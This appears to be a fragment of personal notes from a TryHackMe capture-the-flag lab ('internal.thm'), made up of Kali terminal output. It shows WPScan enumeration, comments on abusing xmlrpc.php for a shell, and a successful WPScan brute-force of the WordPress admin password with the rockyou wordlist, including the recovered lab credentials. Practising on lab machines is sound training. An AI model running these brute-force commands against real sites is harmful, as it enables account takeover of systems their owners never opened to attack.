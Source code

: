 [i] No plugins Found.


[i] No Config Backups Found.

[!] No WPScan API Token given, as a result vulnerability data has not been output.

[+] Finished: Mon Feb 21 12:33:05 2022
[+] Requests Done: 187
[+] Cached Requests: 5
[+] Data Sent: 46.546 KB
[+] Data Received: 18.135 MB
[+] Memory used: 233.953 MB
[+] Elapsed time: 00:00:05
        # going to http://internal.thm/blog/xmlrpc.php show the message "XML-RPC server accepts POST requests only."
        # I am assuming this means we can use a post request to upload something and get something else in return (i.e. a shell)
                # see https://nitesculucian.github.io/2019/07/01/exploiting-the-xmlrpc-php-on-all-wordpress-versions/
# going to http://internal.thm/blog/readme.html I see there is a config.php file somewhere containing connection info --> defo contains some user details...


# another WPScan targeting for the admin user:
(kali㉿kali)-[~/THM/practice/internal]
└─$ wpscan --url http://internal.thm/blog -U admin -P /usr/share/wordlists/rockyou.txt
[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:00 <=============================> (137 / 137) 100.00% Time: 00:00:00

[i] No Config Backups Found.

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - admin / my2boys                                                                                 
Trying admin / bratz1 Time: 00:01:53 <                             > (3885 / 14348277)  0.02%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: admin, Password: my2boys

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register
